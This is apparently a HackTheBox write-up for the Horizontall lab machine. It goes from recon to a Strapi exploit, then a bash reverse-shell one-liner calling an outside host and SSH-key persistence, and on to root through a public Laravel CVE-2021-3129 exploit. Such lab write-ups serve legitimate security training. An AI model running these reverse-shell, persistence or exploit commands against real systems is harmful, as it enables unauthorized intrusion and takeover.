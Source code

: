 ```yaml
---
title: HTB-Horizontall
tags: [laravel, RCE, CVE]
published: true
categories: [HTB]
image: /assets/images/htb/Horizontal/htb.png
---
```


# Horizontall machine on [hackthebox](https://app.hackthebox.com)


## Recon

Starting with an nmap scan we can see that there are only 2 ports open.

![](/assets/images/htb/Horizontal/Pasted image 20240430175510.png)

Lets add horizontall.htb to our hosts file and explore the web page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430175755.png)

### Web (html) 

Clicking through the web application trying to understand its functionality doesn't provide us with any useful information as the webpage appears to be static without any functionality implemented. 

![](/assets/images/htb/Horizontal/Pasted image 20240430180349.png)

Looking at the wappalyzer doesn't really get us much more information. 

![](/assets/images/htb/Horizontal/Pasted image 20240430180527.png)

So at this point we could try to brute force directories or potential vhosts.  
Lets try dir busting first! Unfortunately we haven't found anything of interest again...

![](/assets/images/htb/Horizontal/Pasted image 20240430181051.png)

We can try vhosts scan or look at the source of the web app, specifically into .js files and see if there are some clues left there. 
Inspecting the `app.c68eb462.js` file we search for `horizontall.htb` string hoping for some possible endpoints we can examine and we finally get a hit!! It appears that there is a subdomain `api-prod.horizontall.htb/`

![](/assets/images/htb/Horizontal/Pasted image 20240430181728.png)

Lets add it to our hosts file and explore some more. 

![](/assets/images/htb/Horizontal/Pasted image 20240430181919.png)

### API 

Going to the [http://api-prod.horizontall.htb/]( http://api-prod.horizontall.htb/) we are greeted with a simple "Welcome" message. 


![](/assets/images/htb/Horizontal/Pasted image 20240430182048.png)

Once again lets try directories brute forcing with ffuf and see if we get any luck 🤞 

![](/assets/images/htb/Horizontal/Pasted image 20240430182429.png)

As you can see we found admin endpoint among others like users and reviews. 
Investigating the `/admin` endpoint lands us on strapi login page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430182610.png)

From here we have couple of options. We could try guessing usernames and passwords like `admin:admin` etc or go to google and see if there are any default credentials for strapi. We could also try sql injection in the login form or play around with password reset functionality. 

What we are going to do first though is look up if there are any known vulnerabilities in the strapi. 
After quick google search we can see that there is an exploit for `Strapi CMS 3.0.0-beta.17.4` in exploit db.

![](/assets/images/htb/Horizontal/Pasted image 20240430183345.png)

However at this point in time we aren't really sure what is the version of our strapi. 
Scrolling through the exploit code we can see that there is a version check before an exploitation attempt is made. We can see that in here. 

![](/assets/images/htb/Horizontal/Pasted image 20240430183633.png)

Lets see if we can manually check the version ourselves going to `/admin/init` endpoint. 

![](/assets/images/htb/Horizontal/Pasted image 20240430183801.png)

Perfect! Seems like we have a version match. Now lets get down to business. 

## Foothold

Time to copy the exploit code to our machine and try getting reverse shell one the box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430184521.png)

Exploit seems to be working. We can start an ncat listener on our machine and try curling ourselves to make sure we do have code execution. 

![](/assets/images/htb/Horizontal/Pasted image 20240430184832.png)

![](/assets/images/htb/Horizontal/Pasted image 20240430184858.png)

Awesome!! Everything seems to be working so far. This time lets send the bash reverse shell. 

```bash
$> bash -c 'bash -i >& /dev/tcp/10.10.14.113/9001 0>&1'
```

And we got in!! 

![](/assets/images/htb/Horizontal/Pasted image 20240430185239.png)

## Privesc 

We are gonna drop ssh key on the box for a better and more stable shell. We can do that by running: 

```bash
ssh-keygen 
```

Next on our victim machine we should make a directory `.ssh` in our home folder and paste the public key we just generated inside authorized_keys file and then adjust permissions. Like this: 

```bash
cd ~
mkdir .ssh
echo " <your public key here> " > authorized_keys
chmod 600 authorized_keys
```

Then we simply ssh in with our private key as follows.

```bash
┌──(sinin㉿legion)-[~/.ssh]
└─$ ssh strapi@10.129.2.203 -i id_ed25519
```

Once we are logged back in lets see if we can find some more information about the users on this box. Simple cat on `/etc/passwd` should let us know what are the usernames. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205231.png)

We can see that besides the us there is also a developer and root user. Next lets see what ports are listening on our box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205111.png)

We have couple of ports listening. Port `22` and `80` we can exclude since we already know what those are. Same goes for port `3306` as its `MySQL` database for strapi web app. We could try extracting database username and password from the source code which we may eventually. However at this point i wanna see what's up with ports `1337` and `8000`. So what we are going to do first is simply curl those addresses and see we we get any http response from them. 

![](/assets/images/htb/Horizontal/Pasted image 20240430205834.png)

On port `1337` we have the welcome msg we already seen. Which means that's strapi application that we already exploited. What about port `8000`?

![](/assets/images/htb/Horizontal/Pasted image 20240430205948.png)

That's something new! Looks like yet another web app. It would be nice if we could access it from our browser. In order to achieve that we are going to have to set up ssh tunnel. 

```bash
~C
ssh> -L 9002:127.0.0.1:8000
```

Now we are forwading port 8000 on the box to the port `9002` on our machine through ssh tunnel and we can simply go to [http://localhost:9002](http://localhost:9002) in our browser and check out the page. 

![](/assets/images/htb/Horizontal/Pasted image 20240430213117.png)

This time we have a laravel default welcome page. A quick google search for laravel on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel) and there is couple of interesting things for us to try. Going to `/profiles` shows us an error page indicating that laravel is running in debug mode. Exploring context tab on the error page tells us that the `laravel` version is `8.43.0` which seems to be vulnerable to RCE that we found on hacktricks. 

![](/assets/images/htb/Horizontal/Pasted image 20240430213855.png)

The only thing left now is to find working exploit. I found one on this github [repo](https://github.com/nth347/CVE-2021-3129_exploit) We can clone the repo and follow instructions.

```bash
$ git clone https://github.com/nth347/CVE-2021-3129_exploit.git
$ cd CVE-2021-3129_exploit
$ ./exploit.py http://localhost:8000 Monolog/RCE1 id
```

Victory!! Finally got root privileges on the box. 

![](/assets/images/htb/Horizontal/Pasted image 20240430215619.png)

So that would be it when it comes to Horizontall. At this point we can simply cat the root flag or drop reverse shell to gain root shell on the machine. 